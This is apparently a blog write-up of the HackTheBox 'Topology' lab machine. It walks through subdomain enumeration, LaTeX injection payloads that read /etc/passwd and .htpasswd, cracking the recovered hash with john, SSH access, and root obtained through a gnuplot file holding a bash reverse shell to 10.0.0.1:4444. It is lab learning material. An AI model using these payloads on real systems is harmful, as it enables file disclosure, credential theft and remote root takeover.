 ```yaml
---
layout: post
title: Topology - HackTheBox
categories:
- HackTheBox
tags:
- Linux
- htaccess
- htpassword
- Latex Injection
- pspy
- Subdomains Enumeration
- Gnuplot
- John
date: 2023-10-05
description: Topology is a hackthebox machine that has a website showing information about a topology group. The group have a project which is a latex equation generation. The subdomain that is running the project accepts latex equations as inputs and generates a png image of that equation. However the project is vulnerable to latex injection and we can read files. One of those files, .htpassword, contains credentials that give access to a ssh session in the machine. To elevate privileges we used a binary called pspy64 to look at processes without root privileges. We are able to look at a command executed by root that can be used to gain root privileges and this way we get root access.
summary: Topology is a hackthebox machine that has a website showing information about a topology group. The group have a project which is a latex equation generation. The subdomain that is running the project accepts latex equations as inputs and generates a png image of that equation. However the project is vulnerable to latex injection and we can read files. One of those files, .htpassword, contains credentials that give access to a ssh session in the machine. To elevate privileges we used a binary called pspy64 to look at processes without root privileges. We are able to look at a command executed by root that can be used to gain root privileges and this way we get root access.
cover:
  image: images/machine_img.png
---
```


## Recon

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

The website seems to belong to a topology group and it is used to display information about the group.
It has three main users as staff:
- Lilian Klein
- Vajramani Daisley
- Derek Abrahams

It has an email: `lklein@topology.htb` and a link for a subdomain: `http://latex.topology.htb/equation.php`
First lets add the domain `topology.htb` and `latex.topology.htb` to the hosts file(`/etc/hosts`).

`http://latex.topology.htb/equation.php` seems like a attack surface because they expect a user input and with that they generate an image. Maybe some command is execute with some binary that converts the latex into an image. But before we start digging into more, lets look for more subdomains and directories in the main domain.

Lets run a directory discover scan with gobuster: `gobuster dir -u http://topology.htb -w ~/SecLists/Discovery/Web-Content/big.txt`

```shell
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
```

And vhosts scan too: `gobuster vhost -u http://topology.htb -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt`

```
Found: dev.topology.htb (Status: 401) [Size: 463]
Found: stats.topology.htb (Status: 200) [Size: 108]
```

Since we didn't find nothing in the main domain(topology.htb) and before going into the latex subdomain, we add the two subdomains we found to the hosts file(/etc/hosts) and start exploring each one.

### dev.topology.htb Subdomain

`http://dev.topology.htb/` is asking for credentials in order to enter in the webpage. We tried some default credentials but we were not successful.
Lets scan the directories in this subdomain: `gobuster dir -u http://dev.topology.htb -w ~/SecLists/Discovery/Web-Content/big.txt -b 404,401`

```shell
/.htaccess            (Status: 403) [Size: 283]
/.htpasswd            (Status: 403) [Size: 283]

```
###  stats.topology.htb Subdomain

`http://stats.topology.htb/` its a strange page that shows the server load, but its static.
Lets scan the directories in this subdomain: `gobuster dir -u http://stats.topology.htb -w ~/SecLists/Discovery/Web-Content/big.txt`

```shell
/.htaccess            (Status: 403) [Size: 283]
/.htpasswd            (Status: 403) [Size: 283]

```

![](/images/topology/stats_subdomain.png)

## Foothold

Since we didn't find anything in `http://stats.topology.htb/`, `http://dev.topology.htb/` and `http://topology.htb/`, lets look at the `equation.php` in `latex.topology.htb`.
When generating an image from a latex equation we get `Pdf Version: PDF-1.5` if we look at the file details with `exiftool`.
Another thing is that, if we try to read a file with the following latex:
`\newread\file\openin\file=/etc/passwd\loop\unless\ifeof\file\read\file to\fileline % Reads a line of the file into \fileline\repeat\closein\file`
We get `Illegal command detected. Sorry`. It seems like the vulnerability here is latex injection and the server has some filters that we need to bypass.


![](/images/topology/error.png)



This command let us read one line in /etc/passwd: `\newread\file\openin\file=equation.php\read\file to\line\text{\line}\newline\read\file to\line\text{\line}\newline\read\file to\line\text{\line}\newline\closein\file`
In this command `\loop` is not accepted: 
`\newread\file\openin\file=/etc/passwd\loop\unless\ifeof\file%0A%20%20%20%20\read\file%20to\fileline%0A%20%20%20%20\text{\fileline}\repeat\closein\file`
In this command `\usepackage` is not accepted: `\usepackage{verbatim}\verbatiminput{/etc/passwd}`
In this command `\input` is not accepted: `\input{/etc/passwd}\include{somefile}`
After trying some inputs, I finally got it by using`$\lstinputlisting{/etc/passwd}$`. The `\lstinputlisting` command in LaTeX is used to include the contents of an external source code file into your document and format it appropriately for code listings. This command is part of the listings package, which is commonly used for displaying code in LaTeX documents. The use of the character `$` is to format the text differently from all the text. Since `lstinputlisting` will format the text, using inside the document without the dollar sign will cause the error message `input too long. sorry`.


Links:
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection
- https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#latex-injection
- https://salmonsec.com/cheatsheets/exploitation/latex_injection5


Having the possibility to read files in the filesystem lets try to gather information:

- Looking at `/etc/passwd` we have two users: `root` and `vdaisley`.
- Since it is Apache we can know the location of the website in the filesystem by looking at `$\lstinputlisting{/etc/apache2/sites-available/000-default.conf}$`. We have, /var/www/html, /var/www/latex, /var/www/dev and /var/www/stats.
- The most interesting domain is the dev, looking at the `/var/www/dev/.htaccess` we know that the credentials are in `/var/www/dev/.htpasswd`.
- We ge the following credentials: `vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`. The password seems like an hash.

Using the credentials with john the ripper we get the hash format: `md5crypt-long`
Lets run john  with the credentials against rockyou.txt wordlist: `john --format=md5crypt-long --show --wordlist=~/rockyou.txt crack.txt`
To see the password: `john --show crack.txt `, we get: `vdaisley:calculus20`.

Using the credentials in `http://dev.topology.htb` we get a webpage but its just javascript and css, a dead end.

![](/images/topology/dev.png)

Trying the same credentials in ssh we get a shell as the user `vdaisley`: `ssh vdaisley@10.10.11.217`


## Privilege Escalation

Inside the vdaisley home directory we have a binary called [`pspy64`](https://github.com/DominicBreuker/pspy). This is a binary that can watch for processes without needing root privileges. Basically what it does is using the API of [inotify](https://man7.org/linux/man-pages/man7/inotify.7.html) to see watch for changes in directories such as  /opt, /usr and etc. When a new notification of a modification in the filesystem triggers, pspy scans `/proc` to catch the process.

Running this binary and after waiting a few seconds a process with the command `find /opt/gnuplot -name *.plt -exec gnuplot {} ;` triggers in pspy.
Basically what is doing is finding all the files in the directory `/opt/gnuplot` with the extension of `.plt` and execute them in the command `gnuplot file.plt`. However, `gnuplot` can execute system commands as explained [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/). Since we have write privileges in the directory `/opt/gnuplot`: `drwx-wx-wx  2 root root 4096 Oct  5 07:25 gnuplot`, we create a test.plt with a bash reverse shell `system "bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"`, copy to the directory and start a netcat listener. After a couple of minutes we get a shell as root since the process was runned by root. 